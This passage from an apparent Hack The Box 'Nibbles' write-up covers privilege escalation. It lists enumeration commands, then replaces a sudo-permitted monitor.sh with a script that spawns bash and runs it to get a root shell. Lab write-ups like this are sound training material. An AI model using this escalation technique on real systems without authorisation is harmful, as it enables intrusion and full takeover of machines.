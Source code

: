 I continue with the system enumeration phase to look for a path to pivot user or escalate privileges, there is a **[vulnerability](https://www.circl.lu/pub/tr-67/){:target="_blank"}** in the `pkexec` tool but it is not the intended path on this machine. The compromised user (**nibbler**) has the privilege to execute the script `monitor.sh` impersonating the user of maximum privileges (**root**), but the script and the path where it should be hosting the same, does not exist, except a personal compressed `file.zip` that when decompressing it allow me to access the contents of the script. The content is not relevant at the moment but if I can delete it and create a new one that when executing it gives me a **Shell** and as I can execute it as the **root** user I can escalate privileges and engage the box. Finally I can see the content of the last flag to validate before **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** the lab compromise.

```bash
find \-perm -4000 2>/dev/null
getcap / -r 2>/dev/null
sudo -l
# (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

cat /home/nibbler/personal/stuff/monitor.sh
# No such file or directory

unzip personal.zip
shred -zun 10 -v monitor.sh
# mkdir -p personal/stuff

touch monitor.sh
nano monitor.sh 
cat !$
```

> **monitor.sh**:

```bash
#!/bin/bash

bash
```

```bash
chmod +x monitor.sh 
sudo /home/nibbler/personal/stuff/monitor.sh
# :)
```

<br />
<img src="{{ site.img_path }}/nibbles_writeup/Nibbles_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nibbles_writeup/Nibbles_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nibbles_writeup/Nibbles_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nibbles_writeup/Nibbles_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nibbles_writeup/Nibbles_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
